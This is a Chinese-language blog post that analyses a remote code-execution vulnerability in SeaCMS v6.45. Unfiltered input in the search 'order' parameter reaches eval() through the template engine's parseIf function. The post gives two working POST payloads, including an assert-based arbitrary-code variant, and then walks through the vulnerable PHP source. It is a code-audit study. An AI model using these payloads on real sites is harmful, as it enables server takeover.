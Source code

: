 ```yaml
---
title: SeaCMS v6.45前台代码执行漏洞分析
date: 2018-08-06 23:13:22
tags:
	- 代码审计
	- 代码执行
---
```


SeaCMS没有使用框架，比较适合练习。

<!-- more -->

### 1. 源码下载

```
链接：https://pan.baidu.com/s/1uw_VnxnvG4GGEae4TRsGGw

密码：cd48
```

###2. POC

第一种

```
http://127.0.0.1/seacms/search.php
POST:searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if}
```

第二种

```
http://127.0.0.1/seacms/search.php
POST:searchtype=5&order=}{end if} {if:1)print_r($_POST[a]($_POST[b]));//}{end if}&a=assert&b=phpinfo();
```

效果图

![](http://osn75zd5c.bkt.clouddn.com/18-8-6/49244924.jpg)

### 3. 漏洞原理分析

#### 3.1 代码执行简单流程

![](http://osn75zd5c.bkt.clouddn.com/18-8-6/81792070.jpg)

#### 3.2 详细分析

代码执行的原因是`$order`参数没做严格的限制，就将其传入了模板文件中，然后使用`eval()`执行模板中包含`$order`的代码。

 首先，在文件`seacms/search.php`中，包含了文件`seacms/include/common.php`,在`common.php`中第45-48行，将GET,POST等请求传入的全局变量中的键值对转换成变量，并对其中的值使用`addslashes()`进行处理。

```
function _RunMagicQuotes(&$svar)
{
	if(!get_magic_quotes_gpc())
	{
		if( is_array($svar) )
		{
			foreach($svar as $_k => $_v) $svar[$_k] = _RunMagicQuotes($_v);
		}
		else
		{
			$svar = addslashes($svar); # 转义单引号、双引号、反斜线、NULL
		}
	}
	return $svar;
}
foreach(Array('_GET','_POST','_COOKIE') as $_request)
{
	foreach($$_request as $_k => $_v) ${$_k} = _RunMagicQuotes($_v);
}
```

然后在`seacms/search.php`文件的`echoSearchPage()`函数中，也就是文件第63行，将变量注册成全局变量。

```
global $dsql,$cfg_iscache,$mainClassObj,$page,$t1,$cfg_search_time,$searchtype,$searchword,$tid,$year,$letter,$area,$yuyan,$state,$ver,$order,$jq,$money,$cfg_basehost;
```

可以看到，在`search.php`中，执行`echoSearchPage()`函数之前，没有对`$order`变量进行处理。

接着往下看，在`echoSearchPage()`函数中，使用`$searchtype`来选择使用的模板文件。

```
if(intval($searchtype)==5)
	{
		$searchTemplatePath = "/templets/".$GLOBALS['cfg_df_style']."/".$GLOBALS['cfg_df_html']."/cascade.html";
		$typeStr = !empty($tid)?intval($tid).'_':'0_';
		$yearStr = !empty($year)?PinYin($year).'_':'0_';
		$letterStr = !empty($letter)?$letter.'_':'0_';
		$areaStr = !empty($area)?PinYin($area).'_':'0_';
		$orderStr = !empty($order)?$order.'_':'0_';
		$jqStr = !empty($jq)?$jq.'_':'0_';
		$cacheName="parse_cascade_".$typeStr.$yearStr.$letterStr.$areaStr.$orderStr;
		$pSize = getPageSizeOnCache($searchTemplatePath,"cascade","");
	}else
	{
		if($cfg_search_time&&$page==1) checkSearchTimes($cfg_search_time);
		$searchTemplatePath = "/templets/".$GLOBALS['cfg_df_style']."/".$GLOBALS['cfg_df_html']."/search.html";
		$cacheName="parse_search_";
		$pSize = getPageSizeOnCache($searchTemplatePath,"search","");
	}
```

当值是5时，会使用`cascade.html`，文件目录为`seacms\templets\default\html\cascade.html`，若不是，则会使用`earch.html`，文件目录为`seacms\templets\default\html\search.html`。

下面153行，将模板文件读取到`$content`变量中，接着在155-173行替换标签。其中第158行使用`$order`替换了模板中`{searchpage:ordername}`标签。然后分别搜索`search.html`和`cascade.html`，只有`cascade.html`第79-81行存在该标签。

```
<a href="{searchpage:order-time-link}" {if:"{searchpage:ordername}"=="time"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderhits">最新上映</a>
      <a href="{searchpage:order-hit-link}" {if:"{searchpage:ordername}"=="hit"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderaddtime">最近热播</a>
      <a href="{searchpage:order-score-link}" {if:"{searchpage:ordername}"=="score"} class="btn btn-success" {else} class="btn btn-default" {end if} id="ordergold">评分最高</a>
```

因此，必须要`$searchtype==5`。

接着往下走，在第212行

```
$content=$mainClassObj->parseIf($content);
```

跟进去，在`seacms\include\main.class.php`中第3098-3147行中。

```
function parseIf($content)
{
    if (strpos($content, '{if:') === false) {
        return $content;
    } else {
        $labelRule = buildregx("{if:(.*?)}(.*?){end if}", "is");
        $labelRule2 = "{elseif";
        $labelRule3 = "{else}";
        preg_match_all($labelRule, $content, $iar);
        $arlen = count($iar[0]);
        $elseIfFlag = false;
        for ($m = 0; $m < $arlen; $m++) {
            $strIf = $iar[1][$m];
            $strIf = $this->parseStrIf($strIf);
            $strThen = $iar[2][$m];
            $strThen = $this->parseSubIf($strThen);
            if (strpos($strThen, $labelRule2) === false) {
                if (strpos($strThen, $labelRule3) >= 0) {
                    $elsearray = explode($labelRule3, $strThen);
                    $strThen1 = $elsearray[0];
                    $strElse1 = $elsearray[1];
                    @eval("if(" . $strIf . "){\$ifFlag=true;}else{\$ifFlag=false;}");
                    if ($ifFlag) {
                        $content = str_replace($iar[0][$m], $strThen1, $content);
                    } else {
                        $content = str_replace($iar[0][$m], $strElse1, $content);
                    }
                } else {
                    @eval("if(" . $strIf . ") { \$ifFlag=true;} else{ \$ifFlag=false;}");
                    if ($ifFlag) {
                        $content = str_replace($iar[0][$m], $strThen, $content);
                    } else {
                        $content = str_replace($iar[0][$m], "", $content);
                    }
                }
            } else {
                $elseIfArray = explode($labelRule2, $strThen);
                $elseIfArrayLen = count($elseIfArray);
                $elseIfSubArray = explode($labelRule3, $elseIfArray[$elseIfArrayLen - 1]);
                $resultStr = $elseIfSubArray[1];
                $elseIfArraystr0 = addslashes($elseIfArray[0]);
                @eval("if({$strIf}){\$resultStr=\"{$elseIfArraystr0}\";}");
                for ($elseIfLen = 1; $elseIfLen < $elseIfArrayLen; $elseIfLen++) {
                    $strElseIf = getSubStrByFromAndEnd($elseIfArray[$elseIfLen], ":", "}", "");
                    $strElseIf = $this->parseStrIf($strElseIf);
                    $strElseIfThen = addslashes(getSubStrByFromAndEnd($elseIfArray[$elseIfLen], "}", "", "start"));
                    @eval("if(" . $strElseIf . "){\$resultStr=\"{$strElseIfThen}\";}");
                    @eval("if(" . $strElseIf . "){\$elseIfFlag=true;}else{\$elseIfFlag=false;}");
                    if ($elseIfFlag) {
                        break;
                    }
                }
                $strElseIf0 = getSubStrByFromAndEnd($elseIfSubArray[0], ":", "}", "");
                $strElseIfThen0 = addslashes(getSubStrByFromAndEnd($elseIfSubArray[0], "}", "", "start"));
                if (strpos($strElseIf0, '==') === false && strpos($strElseIf0, '=') > 0) {
                    $strElseIf0 = str_replace('=', '==', $strElseIf0);
                }
                @eval("if(" . $strElseIf0 . "){\$resultStr=\"{$strElseIfThen0}\";\$elseIfFlag=true;}");
                $content = str_replace($iar[0][$m], $resultStr, $content);
            }
        }
        return $content;
    }
}
```

可以看到下面存在`eval()`函数来执行代码，要想进入到`eval()`，`$content`中必须含有`{if:`字符串。

然后是正则，

```
$labelRule = buildregx("{if:(.*?)}(.*?){end if}","is");
preg_match_all($labelRule,$content,$iar);
```

看代码执行流程，在`eval()`函数中，`$strIf`就是之前`preg_match_all()`中第一个`(.*?)`匹配出来的值。

```
@eval("if(".$strIf."){\$ifFlag=true;}else{\$ifFlag=false;}");
```

在`eval()`中，要闭合前面的if语句，可以构造`1)phpinfo();if(1`，又要符合正则`{if:(.*?)}(.*?){end if}`，再看标签：

```
<a href="{searchpage:order-time-link}" {if:"{searchpage:ordername}"=="time"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderhits">最新上映</a>
```

由于`$order`替换的是`{searchpage:ordername}`，所以，在`1)phpinfo();if(1`基础上添加。

```
}{end if}{if:1)phpinfo();if(1}{end if}
```

漏洞利用的基本流程就是这样，简单来说，就是有个可控的变量没有经过过滤，就被带入了`eval()`中，导致了代码执行。

###  4. 参考

[SeaCMS v6.45前台Getshell 代码执行 ](https://github.com/SecWiki/CMS-Hunter/tree/master/seacms/SeaCMS%20v6.45%E5%89%8D%E5%8F%B0Getshell%20%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C)
